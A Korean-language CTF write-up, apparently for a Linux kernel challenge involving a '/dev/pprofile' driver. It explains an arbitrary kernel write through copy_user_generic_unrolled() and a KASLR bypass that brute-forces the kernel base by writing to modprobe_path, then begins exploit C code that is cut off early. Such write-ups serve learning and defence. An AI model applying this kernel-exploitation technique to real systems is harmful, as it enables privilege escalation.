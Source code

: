 문제에서는 커널 공간에서 사용자 공간으로 데이터를 복사할 떄 사용하는 함수지만, dest 인자에 커널 영역의 주소를 넣어도 데이터를 복사한다. 

또한 복사하는 과정에서 Access violation 이 발생해도 커널 패닉을 유발하지 않는다. 

우리는 profile 을 조회하는 커맨드를 요청할 때, `copy_user_generic_unrolled()` 의 dest 인자를 조절할 수 있고, 이 인자의 주소값을 커널 영역으로 설정한다면, 우리는 임의의 커널 영역 주소에 pid 값을 쓸 수 있게 된다. 

## **Exploit**

먼저 커널의 원하는 영역에 값을 쓰기 위해 커널 베이스 주소를 가져와야 한다. 

해당 VM 에는 kaslr 이 걸려있는데, 사실 64비트에서 커널 주소의 하위 24비트는 고정이고, 역시 상위 32비트도 0xffffffff 로 고정이다.

그렇다면 kaslr 이 걸려있더라도 커널 베이스 주소가 가질 수 있는 값은 그 사이의 8비트의 가지수 뿐이다. 

보통 커널 베이스는 `0xffffffff81000000` 이상이기 때문에 0x81 ~ 0xff 만큼 전수조사를 하면 커널 베이스 주소를 가져올 수 있다. 

그럼 전수조사는 어떻게 할까. 그 방법은 역시 `copy_user_generic_unrolled()` 함수의 특징을 이용하는 것이다. 이 함수는 앞서 언급했듯, AccessViolation 이 발생해도 커널 패닉을 유발하지 않는다. 따라서 임의의 커널 주소에 값을 쓸 때, AccessViolation 이 나면, 그냥 ioctl이 실패하는 것이고, 성공하면 성공했다는 반응이 나온다. 

따라서 나는 대표적인 커널의 쓰기 가능한 Data영역인 `modprobe_path` 부분에 값을 쓰는 것으로 전수조사하여 커널의 베이스 주소를 알 수 있었다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <string.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/wait.h>

#define DEVICE_NAME "/dev/pprofile"
#define SET_PROFILE_COMMAND 32
#define REMOVE_PROFILE_COMMAND 64
#define GET_PROFILE_COMMAND 16

struct task
{
    uint64_t reserved;
    uint32_t pid;
    uint32_t length;
};

struct profile {
    char* name;
    struct task* t;
};

int set_profile(struct profile* p)
{
    int fd = open(DEVICE_NAME, O_RDONLY);
    if (fd < 0)
    {
        printf("set profile: open error\n");
        return -1;
    }
    return ioctl(fd, SET_PROFILE_COMMAND, p);
}

int get_profile(struct profile* p)
{
    int fd = open(DEVICE_NAME, O_RDONLY);
    if (fd < 0)
    {
        printf("get profile: open error\n");
```